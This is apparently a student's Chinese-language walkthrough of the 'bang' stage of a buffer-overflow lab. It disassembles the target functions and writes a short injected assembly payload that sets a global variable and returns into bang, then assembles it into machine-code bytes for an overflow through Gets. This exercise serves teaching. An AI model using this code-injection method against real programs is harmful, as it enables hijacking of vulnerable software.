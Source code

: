 研究 bang 汇编语言的前几行：
```s
08048c9d <bang>:
8048c9d:	55                   	push   %ebp
8048c9e:	89 e5                	mov    %esp,%ebp
8048ca0:	83 ec 18             	sub    $0x18,%esp
8048ca3:	a1 00 d1 04 08       	mov    0x804d100,%eax
8048ca8:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax
8048cae:	75 26                	jne    8048cd6 <bang+0x39>
8048cb0:	89 44 24 08          	mov    %eax,0x8(%esp)
8048cb4:	c7 44 24 04 60 a3 04 	movl   $0x804a360,0x4(%esp)
```

在这里可以看到程序在将 eax 的值和 `0x804d100` 作比较，推测 globla_value 存储的位置就是在 `0x804d100`。后面又一次出现了 `0x804d108`，根据前面的分析存储的是 cookies  的值。

![](2019-05-06-20-40-41.png)

所以为了修改变量值，需要将汇编代码注入到程序当中。文档提示我们不要使用 jmp 和 call，所以为了执行 bang 函数，要将 bang 函数的地址 push 进栈中，然后使用 ret 命令。

![](2019-05-06-20-45-04.png)

汇编代码如下：

```s
# 改变 global_value
movl $0x362d5a70, 0x804d100
# 将 bang 函数的首地址压入栈
pushl $0x08048c9d
ret
```
接下来就是将汇编语言转换成十六进制的机器代码了。使用`gcc -m32 -c` 和 `objdump -d`可以得到转换之后的文件：

```s
00000000 <.text>:
   0:	c7 05 00 d1 04 08 70 	movl   $0x362d5a70,0x804d100
   7:	5a 2d 36 
   a:	68 9d 8c 04 08       	push   $0x8048c9d
   f:	c3                   	ret    
```
那么所有的字节就是 `c7 05 00 d1 04 08 70 5a 2d 36 68 9d 8c 04 08 c3`。接下来回到 getbuff 的汇编代码：

```s
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret  
```
